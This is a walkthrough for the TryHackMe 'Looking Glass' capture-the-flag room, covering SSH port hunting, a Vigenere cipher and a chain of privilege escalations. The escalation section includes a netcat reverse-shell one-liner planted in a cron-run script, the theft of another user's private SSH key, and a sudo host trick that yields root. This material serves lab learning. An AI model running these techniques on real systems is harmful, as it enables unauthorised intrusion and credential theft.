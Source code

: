 # Looking Glass

Looking Glass is a CTF that teaches you about enumerating SSH, decrypting ciphertext, adding malicious code into a script and misconfigured permissions.

## Information:

**Name:** Looking Glass  
**Difficulty:** Medium  
**Released:** Sun 16 August 2020  
**Creator:** NinjaJc01  
**URL:** https://tryhackme.com/room/lookingglass  

## Enumeration

Start off with an nmap scan which goes like this:

```vim
nmap -Pn -sV -sC -v <IP_ADDR>
```

You will see a lot of ports open showing this as a response `Dropbear sshd (protocol 2.0)`. Specifically, there are ports open from 9000-13999 and then ones which show as something else are `Dropbear sshd` ports which nmap couldn't figure out. I looked for any available vulnerabilities but there wasn't anything interesting. So we try connecting to a port with the following command:

```vim
ssh <IP_ADDR> -p 9000 -oHostKeyAlgorithms=ssh-rsa 
```
  
Response:
```vim
The authenticity of host '[10.10.207.144]:9000 ([10.10.207.144]:9000)' can't be established.
RSA key fingerprint is SHA256:iMwNI8HsNKoZQ7O0IFs1Qt8cf0ZDq2uI8dIK97XGPj0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.207.144]:9000' (RSA) to the list of known hosts.
Lower
Connection to 10.10.207.144 closed.
```
This gives us `Lower` as a response (If you go for 13999 as the port instead it could come as `Higher`). The thing that is happening here is that The response is the inverse of what it is, in the sense that `Lower` meant to go higher and vice-versa and we have to find the correct port.

Note: The real port changes with every reboot of the machine, so you have to go looking for the correct port each time.

The methodology that I used was to pick the middle number between 2 numbers each time, Ex. If you picked the numbers between 10000 (shows `Higher`) - 9000 (shows `Lower`), I would pick 9500 and see the response and repeat till I find the right number(Similar to block sort algorithm).

### Decoding Ciphers

Once you find the correct port, you will get the following as a response:

```md
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

'Fvphve ewl Jbfugzlvgb, ff woy!
Ioe kepu bwhx sbai, tst jlbal vppa grmjl!
Bplhrf xag Rjinlu imro, pud tlnp
Bwl jintmofh Iaohxtachxta!'

Oi tzdr hjw oqzehp jpvvd tc oaoh:
Eqvv amdx ale xpuxpqx hwt oi jhbkhe--
Hv rfwmgl wl fp moi Tfbaun xkgm,
Puh jmvsd lloimi bp bwvyxaa.

Eno pz io yyhqho xyhbkhe wl sushf,
Bwl Nruiirhdjk, xmmj mnlw fy mpaxt,
Jani pjqumpzgn xhcdbgi xag bjskvr dsoo,
Pud cykdttk ej ba gaxt!

Vnf, xpq! Wcl, xnh! Hrd ewyovka cvs alihbkh
Ewl vpvict qseux dine huidoxt-achgb!
Al peqi pt eitf, ick azmo mtd wlae
Lx ymca krebqpsxug cevm.

'Ick lrla xhzj zlbmg vpt Qesulvwzrr?
Cpqx vw bf eifz, qy mthmjwa dwn!
V jitinofh kaz! Gtntdvl! Ttspaj!'
Wl ciskvttk me apw jzn.

'Awbw utqasmx, tuh tst zljxaa bdcij
Wph gjgl aoh zkuqsi zg ale hpie;
Bpe oqbzc nxyi tst iosszqdtz,
Eew ale xdte semja dbxxkhfe.
Jdbr tivtmi pw sxderpIoeKeudmgdstd
Enter Secret:
```

This looks like some form of cipher text. To decipher this, You can use the following website: https://www.boxentriq.com/code-breaking/cipher-identifier.

One of the possible cipher's was the Vigenere Cipher(https://www.boxentriq.com/code-breaking/vigenere-cipher). Enter the ciphertext and increase the max key length from 10 to 20 and click `Auto Solve`. 

The first response will be the key to the cipher text. Now, add the key and decode it again to get the full cleartext. At the very end of the cleartext, you will see the secret that you need to enter.

### Foothold

Entering the Secret gives you the SSH credentials to log into the jabberwock account.
Note: The password of the jabberwock account will change each time the machine reboots, so you will have to enter the secret again once you find the correct port.

With this, you have can now run the following command to get foothold on the target machine:

```vim
ssh jabberwock@<IP_ADDR>
```

To see the user flag, run `cat user.txt` and reverse the text.

## PrivEsc

Run `ls -la /home`. There are more than 1 account which implies that we will probably have to hop between accounts before we get access to root.

### Jabberwock to Tweedledum

Run `ls` and we will see that there are 2 more files other than user.txt, specifically poem.txt and twasBrillig.sh. twasBrillig.sh has the following code in it:

```vim
wall $(cat /home/jabberwock/poem.txt)
```

Run `sudo -l` and enter your password. You will get the following response:

```vim
User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```

This means that jabberwock can run `reboot` as `sudo`.

Check `/etc/crontab` and you will see the following line of code which is of great interest:

```vim
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

What the above line of code means is that there is a crontab which runs every time on reboot, where it runs twasBrillig.sh as the user tweedledum.

This brings the idea of having a reverse shell code on twasBrillig.sh and reboot to give us access to the tweedledum account.

Run `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP_ADDR> <PORT> >/tmp/f' > twasBrillig.sh`. Replace <IP_ADDR> and <PORT> with your tun0 IP and the port on which your `netcat` listener will be set up. Run `nc -lvnp <PORT>` on your attacking machine. Lastly, run `sudo reboot` and then you will get the reverse shell for tweedledum.

### Tweedledum to HumptyDumpty

run `ls` and you will see 2 files, `humptydumpty.txt` and `poem.txt`. `poem.txt` is useless, and `humptydumpty.txt` has the following text:

```
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9 (SHA256)
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed (SHA256)
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624 (SHA256)
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f (SHA256)
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6 (SHA256)
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0 (SHA256)
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8 (SHA256)
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b (HEX)
```

Everything except the last one is a sha256 hash and the last one is a hex encoded text which can be decoded by CyberChef (https://gchq.github.io/CyberChef/). The last one has the password which can be used to access the humptydumpty account.

You cannot SSH into the humptydumpty account, so you can either do `su humptydumpty` in the reverse shell or get access to jabberwock account again and do `su humptydumpty` there.

### HumptyDumpty to Alice

Here, you have to check the `/home` directory and see the following:

```vim
total 24
4 drwx--x--x 6 alice        alice        4096 Jul  3  2020 alice
4 drwx------ 2 humptydumpty humptydumpty 4096 Jul  3  2020 humptydumpty
4 drwxrwxrwx 5 jabberwock   jabberwock   4096 Jul  3  2020 jabberwock
4 drwx------ 5 tryhackme    tryhackme    4096 Jul  3  2020 tryhackme
4 drwx------ 3 tweedledee   tweedledee   4096 Jul  3  2020 tweedledee
4 drwx------ 2 tweedledum   tweedledum   4096 Jul  3  2020 tweedledum
```

The alice home directory has execute permission enabled, which means that you can execute commands there. I run the following command:

```vim
cat /home/alice/.ssh/id_rsa
```

Copy the `id_rsa` onto your machine and run `chmod 600 id_rsa` to be able to run the private key in the SSH command. To log in as alice, run the command:

```vim
ssh alice@<IP_ADDR> -i id_rsa
```

### Alice to Root

Here, you can run linPEAS or just check the `/etc/sudoers.d` file where the `alice` file is readable and has the following:
  
```vim
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

This means that alice can run `bash` as root on hostname `ssalg-gnikool`. You can get access to root with the following command:

```vim
sudo -h ssalg-gnikool /bin/bash
```

Run `cat /root/root.txt` and reverse the text to get the root flag.
